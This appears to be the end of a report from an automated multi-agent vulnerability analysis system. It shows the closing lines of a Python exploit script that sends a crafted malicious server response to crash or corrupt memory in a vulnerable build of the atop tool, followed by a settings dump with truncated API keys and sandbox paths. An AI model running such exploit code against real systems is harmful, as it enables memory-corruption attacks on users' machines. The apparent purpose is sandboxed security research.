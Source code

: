             s_data = struct.pack('<I', num_gpus) + \
                     struct.pack('<I', 0) + \
                     struct.pack('<I', 10) + \
                     struct.pack('<I', 20) + \
                     struct.pack('<Q', 1024 * 1024 * 8) + \
                     struct.pack('<Q', 1024 * 1024 * 4) + \
                     struct.pack('<I', 50) + \
                     struct.pack('<I', 100) + \
                     struct.pack('<I', 1000) + \
                     struct.pack('<I', 2000)
            
            s_response = create_malicious_response('S', len(s_data), s_data.decode('latin-1'))
            conn.sendall(s_response)
            print(f"Sent 'S' response of length {len(s_response)}")
            
            print("Exploit attempt finished. Check atop-vuln for crash/memory corruption.")

if __name__ == "__main__":
    main()




---

openai_api_key='sk-svcacct-...' brave_search_api_key='BSA...' rich_console=<console width=206 ColorSystem.TRUECOLOR> llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='gemini/gemini-2.5-flash' model_temperature=0.3 reasoning_model='gemini/gemini-2.5-flash' max_turns=50 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent atop' sandbox_image='vuln-atop:latest' setup_archive=None codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/atop/codebase' vulnerable_folder='atop-vuln' patched_folder='atop-patched' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
